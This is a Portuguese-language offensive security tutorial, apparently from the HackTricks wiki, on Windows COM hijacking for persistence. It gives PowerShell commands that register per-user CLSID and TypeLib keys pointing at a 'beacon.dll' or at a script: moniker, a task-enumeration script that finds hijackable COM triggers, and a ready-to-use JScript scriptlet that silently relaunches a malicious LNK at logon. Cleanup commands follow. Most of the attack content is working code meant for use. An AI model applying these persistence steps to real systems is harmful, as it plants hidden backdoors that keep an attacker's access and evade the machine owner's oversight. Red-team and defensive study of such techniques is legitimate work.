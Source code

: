 # COM Hijacking

{{#include ../../banners/hacktricks-training.md}}

### Procurando componentes COM inexistentes

Como os valores de HKCU podem ser modificados pelos usuários, **COM Hijacking** pode ser usado como um **mecanismo persistente**. Usando `procmon` é fácil encontrar chaves de registro COM pesquisadas que não existem e que um atacante poderia criar para persistir. Filtros:

- **RegOpenKey** operações.
- onde o _Result_ é **NAME NOT FOUND**.
- e o _Path_ termina com **InprocServer32**.

Uma vez decidido por qual COM inexistente se passar, execute os seguintes comandos. _Tenha cuidado se decidir se passar por um COM que é carregado a cada poucos segundos, pois isso pode ser excessivo._
```bash
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
### Componentes COM do Task Scheduler sequestráveis

Windows Tasks usam Custom Triggers para chamar COM objects e, como são executadas através do Task Scheduler, é mais fácil prever quando serão acionadas.

<pre class="language-powershell"><code class="lang-powershell"># Show COM CLSIDs
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
if ($Task.Actions.ClassId -ne $null)
{
if ($Task.Triggers.Enabled -eq $true)
{
$usersSid = "S-1-5-32-545"
$usersGroup = Get-LocalGroup | Where-Object { $_.SID -eq $usersSid }

if ($Task.Principal.GroupId -eq $usersGroup)
{
Write-Host "Task Name: " $Task.TaskName
Write-Host "Task Path: " $Task.TaskPath
Write-Host "CLSID: " $Task.Actions.ClassId
Write-Host
}
}
}
}

# Sample Output:
<strong># Task Name:  Example
</strong># Task Path:  \Microsoft\Windows\Example\
# CLSID:  {1936ED8A-BD93-3213-E325-F38D112938E1}
# [more like the previous one...]</code></pre>

Analisando a saída, você pode selecionar uma que será executada, por exemplo, **toda vez que um usuário fizer login**.

Agora, ao procurar o CLSID **{1936ED8A-BD93-3213-E325-F38D112938EF}** em **HKEY\CLASSES\ROOT\CLSID** e em HKLM e HKCU, normalmente você vai encontrar que o valor não existe em HKCU.
```bash
# Exists in HKCR\CLSID\
Get-ChildItem -Path "Registry::HKCR\CLSID\{1936ED8A-BD93-3213-E325-F38D112938EF}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\some.dll
ThreadingModel : Both

# Exists in HKLM
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler

# Doesn't exist in HKCU
PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```
Então, você pode simplesmente criar a entrada HKCU e toda vez que o usuário fizer login, seu backdoor será executado.

---

## COM TypeLib Hijacking (script: moniker persistence)

Type Libraries (TypeLib) definem interfaces COM e são carregadas via `LoadTypeLib()`. Quando um servidor COM é instanciado, o OS também pode carregar o TypeLib associado consultando chaves de registro sob `HKCR\TypeLib\{LIBID}`. Se o caminho do TypeLib for substituído por um **moniker**, por exemplo `script:C:\...\evil.sct`, o Windows executará o scriptlet quando o TypeLib for resolvido — resultando em uma persistência furtiva que dispara quando componentes comuns são acessados.

Isso foi observado contra o Microsoft Web Browser control (frequentemente carregado pelo Internet Explorer, apps que incorporam o WebBrowser, e até mesmo `explorer.exe`).

### Passos (PowerShell)

1) Identifique o TypeLib (LIBID) usado por um CLSID de alta frequência. Exemplo de CLSID frequentemente abusado por cadeias de malware: `{EAB22AC0-30C1-11CF-A7EB-0000C05BAE0B}` (Microsoft Web Browser).
```powershell
$clsid = '{EAB22AC0-30C1-11CF-A7EB-0000C05BAE0B}'
$libid = (Get-ItemProperty -Path "Registry::HKCR\\CLSID\\$clsid\\TypeLib").'(default)'
$ver   = (Get-ChildItem "Registry::HKCR\\TypeLib\\$libid" | Select-Object -First 1).PSChildName
"CLSID=$clsid  LIBID=$libid  VER=$ver"
```
2) Aponte o per-user TypeLib path para um scriptlet local usando o moniker `script:` (no admin rights required):
```powershell
$dest = 'C:\\ProgramData\\Udate_Srv.sct'
New-Item -Path "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver\\0\\win32" -Force | Out-Null
Set-ItemProperty -Path "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver\\0\\win32" -Name '(default)' -Value "script:$dest"
```
3) Coloque um `.sct` JScript mínimo que reexecute seu payload principal (por exemplo, um `.lnk` usado pela cadeia inicial):
```xml
<?xml version="1.0"?>
<scriptlet>
<registration progid="UpdateSrv" classid="{F0001111-0000-0000-0000-0000F00D0001}" description="UpdateSrv"/>
<script language="JScript">
<![CDATA[
try {
var sh = new ActiveXObject('WScript.Shell');
// Re-launch the malicious LNK for persistence
var cmd = 'cmd.exe /K set X=1&"C:\\ProgramData\\NDA\\NDA.lnk"';
sh.Run(cmd, 0, false);
} catch(e) {}
]]>
</script>
</scriptlet>
```
4) Acionamento – abrir o IE, um aplicativo que incorpore o WebBrowser control, ou mesmo atividade rotineira do Explorer carregará o TypeLib e executará o scriptlet, rearmando sua cadeia no logon/reboot.

Limpeza
```powershell
# Remove the per-user TypeLib hijack
Remove-Item -Recurse -Force "HKCU:Software\\Classes\\TypeLib\\$libid\\$ver" 2>$null
# Delete the dropped scriptlet
Remove-Item -Force 'C:\\ProgramData\\Udate_Srv.sct' 2>$null
```
Notas
- Você pode aplicar a mesma lógica a outros componentes COM de alta frequência; sempre resolva o real `LIBID` a partir de `HKCR\CLSID\{CLSID}\TypeLib` primeiro.
- Em sistemas 64-bit, você também pode preencher a subchave `win64` para consumidores 64-bit.

## Referências

- [Hijack the TypeLib – New COM persistence technique (CICADA8)](https://cicada-8.medium.com/hijack-the-typelib-new-com-persistence-technique-32ae1d284661)
- [Check Point Research – ZipLine Campaign: A Sophisticated Phishing Attack Targeting US Companies](https://research.checkpoint.com/2025/zipline-phishing-campaign/)

{{#include ../../banners/hacktricks-training.md}}
